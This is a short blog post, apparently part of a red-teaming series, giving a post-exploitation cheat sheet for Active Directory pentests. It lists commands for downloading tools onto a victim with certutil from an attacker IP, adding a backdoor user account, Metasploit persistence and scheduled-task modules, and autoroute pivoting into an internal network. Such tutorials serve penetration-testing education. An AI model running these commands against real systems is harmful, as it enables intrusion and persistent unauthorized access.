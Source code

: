 +++
title = "Compromising AD - Part 4: Post Exploitation"

date = "2021-08-17T12:35:53+05:30"

tags = ["active-directory", "cybersecurity", "windows", "red-teaming"]
+++


# Post Exploitation

---

- [Post Exploitation](#post-exploitation)
	- [File-Transfers](#file-transfers)
	- [Maintaining-Access](#maintaining-access)
	- [Pivoting](#pivoting)
		- [Setup and Pivot!](#setup-and-pivot)
	- [Cleanup](#cleanup)
		- [Make the system/network as it was when you entered it.](#make-the-systemnetwork-as-it-was-when-you-entered-it)
	- [Next \>\> Useful Active Directory Resources](#next--useful-active-directory-resources)


<br>

## File-Transfers

---

- Certutil

		certutil.exe -urlcache -f http://10.10.10.10/file.txt file.txt

- HTTP - Change to the directory you want to host
	
		python -m SimpleHTTPServer [port]

- Browser 

		Navigate directly to the file (%20 for spaces)

- FTP

	- On Attacker Machine

			python -m pyftpdlib 21

	- On Victim Machine, Browse to
	
			ftp 10.10.10.10

- Linux

		wget https://example.com/example.txt

<br>

## Maintaining-Access

---

- Add a user 
	
		net user hacker password 123 /add

- Persistence Scripts 
	
		run persistence -h 
	
		exploit/windows/local/persistence 
	
		exploit/windows/local/registry_persistence 

- Scheduled Tasks 
	
		run scheduleme 
	
		run schtaskabuse 


<br>

## Pivoting

---

Suppose you're on **`192.168.x.x`** **Network** and so your Victim is.

But when you get a shell into machine, you try the following commands:

	printroute
	ipconfig

And you notice that there is **another network** (say **`eth1` `10.10.10.x`**)

How do we **get into the other network?**

We do something called as **PIVOTING -> ->** 

<br>

### Setup and Pivot!

Fire up `msfconsole` and **Route** to the other network

	run autoroute -s 10.10.10.0/24
	
**List** all the routes

	run autoroute -p 

**Background** that session

	background 

**Let's Pivot** into that Machine (`10.10.10.x` Network)

	use scanner/portscan/tcp

Set the **RHOST** and an **Open Port** (Since we know it's **AD**, we can use **445**)

	set RHOSTS 10.10.10.2
	set PORTS 445

	run

You have **successfully pivoted** into that machine! (which you didn't even know about because of **different network**) 

<br>

## Cleanup

---

### Make the system/network as it was when you entered it.

- Remove **executables**, **scripts**, and **added files.** 

- Remove **malware**, **rootkits**, and **added user accounts.**

- Set settings back to **original configurations.**

<br>

***:) Nice Work, Good Luck on Pentests!***

## [Next >> Useful Active Directory Resources](https://auti.dev/useful-ad-resources/)